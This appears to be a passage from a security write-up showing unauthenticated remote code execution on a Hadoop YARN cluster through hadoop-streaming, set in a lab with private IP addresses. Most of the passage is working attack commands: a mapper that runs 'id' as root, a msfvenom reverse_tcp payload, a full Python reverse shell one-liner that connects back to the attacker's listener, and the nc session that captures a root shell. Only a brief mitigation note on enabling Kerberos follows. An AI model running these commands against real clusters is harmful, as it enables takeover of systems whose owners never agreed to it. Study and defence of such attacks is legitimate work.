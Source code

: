```
$ hadoop jar hadoop-streaming.jar -fs 172.17.0.3:9000 -jt 172.17.0.3:8032 -input /test/123 -output /tmp/out -mapper "id" -reducer NONE
INFO mapreduce.Job: Running job: job_1604081764253_0010
INFO ipc.Client: Retrying connect to server: 0.0.0.0/0.0.0.0:10020. Already tried 9 time(s); retry policy is RetryUpToMaximumCountWithFixedSleep(maxRetries=10, sleepTime=1000 MILLISECONDS)
Streaming Command Failed!
```

Something failed? Failed is bad right?

```
$ hdfs dfs -cat hdfs://172.17.0.3:9000/tmp/out/part-00000
uid=0(root) gid=0(root) groups=0(root)
```

![tommy boy](https://i.ibb.co/GsxtRJn/tommyboy.png)

Ok, but shell right...

**unknown failure, no connect back :'(**

```
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=172.17.0.2 LPORT=5555 -f elf -o shell.out

$ hadoop jar hadoop-streaming.jar -fs 172.17.0.3:9000 -jt 172.17.0.3:8032 -input /test/123 -output /tmp/out -file shell.out -mapper "./shell.out" -reducer NONE -background
```

**"just use python"**

```
$ hadoop jar hadoop-streaming.jar -fs 172.17.0.3:9000 -jt 172.17.0.3:8032 -input /test/123 -output /tmp/out -mapper "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.17.0.2\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" -reducer NONE -background
```

```
$ while true; do nc -v -l -p 5555; done
listening on [any] 5555 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.3] 51740

<64253_0025/container_1604081764253_0025_01_000002#  id
uid=0(root) gid=0(root) groups=0(root)

<64253_0025/container_1604081764253_0025_01_000002# pwd
/tmp/hadoop-root/nm-local-dir/usercache/root/appcache/application_1604081764253_0025/container_1604081764253_0025_01_000002
```

### Mitigations

Turn on security.

Well sure, if you'd like to spend a whole bunch of time setting up Kerberos. Or, add some middleware...
